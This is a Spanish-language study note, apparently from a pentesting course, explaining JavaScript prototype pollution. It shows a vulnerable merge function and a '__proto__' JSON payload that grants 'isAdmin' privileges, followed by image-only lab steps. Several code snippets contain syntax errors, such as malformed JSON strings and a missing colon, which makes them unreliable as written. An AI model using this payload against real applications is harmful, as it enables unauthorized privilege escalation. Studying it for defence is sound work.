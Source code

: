 El ataque **Prototype Pollution** es una técnica de ataque que aprovecha las vulnerabilidades en la implementación de objetos en JavaScript. Esta técnica de ataque se utiliza para modificar la propiedad “**prototype**” de un objeto en una aplicación web, lo que puede permitir al atacante ejecutar código malicioso o manipular los datos de la aplicación.
https://medium.com/node-modules/what-is-prototype-pollution-and-why-is-it-such-a-big-deal-2dd8d89a93c

El código mira al prototipo que es el origen del objeto
{
	email: 'test@test.com'
	 msg 'Hola esto es una prueba'
	 ipAddress: '127.0.0.1'
}

var body = JSON.parse('{"email" : "test@test.com", "msg": "Hola esto es una prueba"})
console.log(merge({"ipAddress: req.ip" : "127.0.0.1", body}))
![[Pasted image 20240616124959.png]]

```JS
var S4vitar = {"name": "Marcel", "age": 27 }
var admin = {"name": "joe Doe", "age": 57, "isAdmin":true}

console.log("¿El usuario admin es administrador? -> " + admin.isAdmin)
```
![[Pasted image 20240616125601.png]]
```
var merge = function(target, source) {
    for(var attr in source) {
        if(typeof(target[attr]) === "object" && typeof(source[attr]) === "object") {
            merge(target[attr], source[attr]);
        } else {
            target[attr] = source[attr];
        }
    }
    return target;
};


var S4vitar = {"name": "Marcel", "age": 27 }
var admin = {"name": "joe Doe", "age": 57, "isAdmin":true}

var body = JSON.parse('{"email" : "test@test.com", "msg": "Hola esto es una prueba"}')
console.log(merge({"ipAddress: req.ip" : "127.0.0.1", body}))

console.log("¿El usuario admin es administrador? -> " + admin.isAdmin)
```
Podría añadir un nuevo campo que sea prototype
```JS
var merge = function(target, source) {
    for(var attr in source) {
        if(typeof(target[attr]) === "object" && typeof(source[attr]) === "object") {
            merge(target[attr], source[attr]);
        } else {
            target[attr] = source[attr];
        }
    }
    return target;
};


var S4vitar = {"name": "Marcel", "age": 27 }
var admin = {"name": "joe Doe", "age": 57, "isAdmin":true}

var body = JSON.parse('{"email" : "test@test.com", "msg": "Hola esto es una prueba"}, "__proto__":{"isAdmin": true}}'); // nuevo añadido y hereda este valor
console.log(merge({"ipAddress: req.ip" : "127.0.0.1", body}))

//console.log("¿El usuario admin es administrador? -> " + {}.isAdmin)
console.log({}.isAdmin)
```
En JavaScript, la propiedad “prototype” se utiliza para definir las propiedades y métodos de un objeto. Los atacantes pueden explotar esta característica de JavaScript para modificar las propiedades y métodos de un objeto y tomar el control de la aplicación.

El ataque de Prototype Pollution se produce cuando un atacante modifica la propiedad “prototype” de un objeto en una aplicación web. Esto se puede lograr mediante la manipulación de datos que se envían a través de formularios o solicitudes AJAX, o mediante la inserción de código malicioso en el código JavaScript de la aplicación.

Una vez que el objeto ha sido manipulado, el atacante puede ejecutar código malicioso en la aplicación, manipular los datos de la aplicación o tomar el control de la sesión de un usuario. Por ejemplo, un atacante podría modificar la propiedad “prototype” de un objeto de autenticación de usuario para permitir el acceso a una cuenta sin la necesidad de una contraseña.

El impacto de la explotación del ataque Prototype Pollution puede ser significativo, ya que los atacantes pueden tomar el control de la aplicación o comprometer los datos de los usuarios. Además, dado que el ataque se basa en vulnerabilidades en la implementación de objetos en JavaScript, puede ser difícil de detectar y corregir.
Pasandole el proto hago que herede las caracteristicas del objeto
![[Pasted image 20240616130756.png]]
Ahora le metemos el proto para que tenga los privilegios del admin
![[Pasted image 20240616130950.png]]
Cambiamos en content type, la última parte a json, y agregamos un json
![[Pasted image 20240616131017.png]]
Y agregandole el siguiente json estamos hechos
![[Pasted image 20240616131150.png]]